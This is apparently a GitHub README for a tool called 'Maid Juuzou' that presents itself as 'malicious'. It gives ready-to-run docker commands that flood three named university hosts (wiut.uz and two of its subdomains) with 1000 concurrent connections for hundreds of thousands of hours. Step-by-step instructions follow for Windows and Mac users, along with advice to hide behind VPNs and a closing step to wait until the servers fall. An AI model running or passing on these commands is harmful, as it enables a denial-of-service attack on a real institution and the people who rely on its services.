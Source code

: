 <p align="center"><img width="300" src="./docs/readme.webp"/></p>

<h1 align="center">Maid Juuzou</h1>

<p align="center">Malicious things on steroids.</p>

# Target

<p align="center"><img src="./docs/diagram.png"/></p>

# If you have kubertnetes cluster `./run_all_kuber.sh`
[Kubernetes Docs](docs/digital_ocean_kubernetes.md)

The easiest way

`docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l https://wiut.uz`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://intranet.wiut.uz`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://srs.wiut.uz`
<br>

# Instruction for Windows and Mac:
1. Install Docker: https://www.docker.com/products/docker-desktop (For mac please pay attention if you download version for the correct chip)
2. Launch Docker and make sure that Docker is running
3. Go here https://github.com/mad-maids/maid.juuzou/blob/main/README.md
4. For best result use VPN :
    - Psiphon: https://psiphon.ca/ (free)
    - Secure VPN: https://www.securevpn.com/ (free)
    - Proton VPN: https://protonvpn.com/ (free)
    - SurfShark: https://surfshark.com/ (paid)
    - Clear VPN: https://clearvpn.com/ (free)
    - Nord VPN: https://nordvpn.com/ (paid)
5. Find in application Windows Command Prompt or Terminal for Mac and launch as an admin.
6. run all aims from resources.txt for winodws - `run_windows.bat` for Linux/Mac `./run_all_docker.sh ` for resources.txt  or ( .`/run_all_docker.sh your_aim_file`)
7. If you want select aims mainally . `docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l https://wiut.uz` Open as many separate CMD consoles as many scripts you are going to launch (each line – one script)
8. Make sure that the process started
9. Wait till wiut servers' fall

> All endpoints can be found at: https://dnsdumpster.com
